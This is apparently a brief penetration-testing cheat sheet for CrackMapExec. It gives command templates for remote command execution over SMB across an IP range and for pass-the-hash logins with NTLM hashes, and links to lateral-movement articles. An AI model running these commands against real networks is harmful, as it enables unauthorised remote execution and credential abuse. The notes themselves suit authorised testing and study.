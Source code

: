# CrackMapExec

## 01 - Usage

`$ crackmapexec smb <IP>/<CIDR> --exec-method -u <wmiexec | atexec | smbexec | mmcexec> "<username>" -p "<password>" -d <domain_name>`

- Pass the Hash

```
$ crackmapexec smb <IP>/<CIDR> -u "<username>" -H "<ntlm_hash>" -d <domain_name>

$ crackmapexec smb targets.txt -u "<username>" -H "<ntlm_hash>" -d <domain_name>
```

## References

- [RCE On Windows From Linux Part 2 CrackMapExec](https://www.infosecmatter.com/rce-on-windows-from-linux-part-2-crackmapexec/)

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)